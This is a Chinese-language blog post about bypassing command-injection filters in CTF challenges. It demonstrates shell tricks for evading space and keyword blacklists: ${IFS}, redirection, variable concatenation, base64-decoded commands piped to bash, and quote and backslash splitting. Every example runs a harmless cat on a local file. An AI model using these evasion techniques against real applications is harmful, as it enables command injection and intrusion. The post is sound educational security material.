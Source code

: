 ```yaml
---
layout:     post
title:      ctf中命令执行的绕过方法
subtitle:   Linux还得多学学
date:       2019-12-10
author:     kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - security
    - linux
    - web
---
```




## 谈谈绕过的方法



在这之前，我们先来总结一下常用的命令注入绕过方法，还是挺有意思的，会对 Linux 指令更加熟练（下面有些 Linux 命令只在 bash 下有效，在 zsh 里面可能会不行）



> 2019.12.19 补充：这些绕过真的是太骚了，马的，这些人怎么想出来的！



### 拼接型



| 命令 | 作用                                       |
| :--- | ------------------------------------------ |
| &    | 表示任务在后台执行                         |
| &&   | 表示前一条命令执行成功时才执行后面一条命令 |
| \|   | 表示上一命令的输出作为下一命令的参数       |
| \|\| | 表示上一条命令执行失败后才执行下一条命令   |
| ;    | 不管前面的命令成不成功都执行后面的命令     |



## 奇淫技巧



在网上看博客的时候就发现了好多命令注入绕过的方法，真是刷新了我的思维，记录一下



### 绕过空格



Linux 下会有很多可以绕过空格的方法，因为题目可能会限制我们不能输入空格，但是我们可以通过一些特殊的字符绕过，现在假设我们的环境是 Linux ，当前环境下有一个名叫 file1 的文件，我们现在要访问里面的内容，一般就是使用 `cat` 命令了

```bash
$ cat file1                                                                 
hello                                                                                     
world
```



#### ${IFS}



要是不让用空格呢？在 Linux 下，有很多方法可以绕过空格， `${IFS}` `$IFS$9` `${IFS}$9` 都表示空格，可以绕过空格，这里 `$IFS` 表示的是 Linux 下的分隔符

```bash
kevin@laptop:~$ cat$IFS$9file1                                                           
hello                                                                                    
world                                                                                     
kevin@laptop:~$ cat${IFS}$9file1                                                         
hello                                                                                     
world                                                                                     
kevin@laptop:~$ cat${IFS}file1                                                           
hello                                                                                     
world 
```



#### 重定向



或者也可以直接用重定向 `<>` 或者 `<` 来取代空格

```bash
kevin@laptop:~$ cat<>file1                                                         
hello                                                                                     
world                                                                                     
kevin@laptop:~$ cat<file1                                                           
hello                                                                                     
world 
```



### 绕过黑名单



依然是上面的例子，如果现在不让我们使用 cat 命令了呢？怎么才能获取到文件里面的内容呢（可能有人会说用 strings 啊，当然可以，但如果只能用 cat 呢）



#### 命令拼接绕过



```bash
kevin@laptop:~$ a=c;b=a;c=t;$a$b$c file1                                                 
hello                                                                                     
world  
```



#### 利用系统已存在资源绕过



从已有的文件或者环境变量中获得相应的字符，不过这个得题目的系统上存在这个环境变量或文件，做题的时候应该会有些提示



#### base64 编码绕过



这个真的是骚到我了，并且知道了原来 Linux 系统自带 base64 编码解码命令，先来看下是怎么用的吧



```bash
[root@localhost ~]# echo cat file1|base64	#加密
Y2F0IGZpbGUxCg== 
[root@localhost ~]# echo Y2F0IGZpbGUxCg==  |base64 -d	#解密
cat file1
```



因为 **`** 会将里面的东西变成 Linux 命令执行，那我们就可以输入下面的命令来进行绕过查看文件内容了

```bash
kevin@laptop:~$ `echo Y2F0IGZpbGUxCg==  |base64 -d`                                       
hello                                                   
world  
```

然而如果题目将 **`** 也给 ban 了的话，我们也可以将上面的输出重定向到 bash 来执行

```bash
kevin@laptop:~$ echo Y2F0IGZpbGUxCg==  |base64 -d | bash                                 
hello                                                   
world  
```



知道这个之后，不仅可以用 base64 进行绕过，还可以用 base32 进行绕过，系统自带 base64 和 base32 命令



#### 引号(单、双)绕过



想不到吧，引号也能绕过，我是服气的！好像只要有配对闭合的引号就能够相互抵消掉

```bash
kevin@laptop:~$ c'a't fi""le1                                                             
hello                                                                                     
world
kevin@laptop:~$ c''"at" file1                                                             
hello
world  
```



#### 反斜线绕过



输入命令的时候，如果命令太长了的话可以用 `\` 来换行输入，这样也可以绕过命令

```bash
kevin@laptop:~$ c\at file1                                                               
hello                                                                                     
world                                                                                     
kevin@laptop:~$ c\at fi\le\1                                                             
hello                                                                                     
world 
```



### Linux 中已经存在的一些字符



- ${PS2} 对应字符 ‘>’
- ${PS4} 对应字符 ‘+’
- ${IFS} 对应 内部字段分隔符
- ${9} 对应 空字符串



不过在使用 `${PS2}` 打算绕过重定向的时候报错了，目前暂时还不知道原因

```bash
kevin@laptop:~$ echo hello ${PS2}file2                                                   
hello > file2                                                                             
kevin@laptop:~$ echo hello >file2                                                         
kevin@laptop:~$ `echo hello ${PS2}file2`                                                 
Command 'hello' not found, but can be installed with:                                     
sudo apt install hello                                                                   
sudo apt install hello-traditional   
```



## reference



[命令执行的一些绕过技巧](https://chybeta.github.io/2017/08/15/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%9A%84%E4%B8%80%E4%BA%9B%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7/)

[ctf命令执行与绕过](https://err0rzz.github.io/2017/11/13/ctf%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E4%B8%8E%E7%BB%95%E8%BF%87/)

https://www.cnblogs.com/v1vvwv/p/DVWA-Command-Injection.html

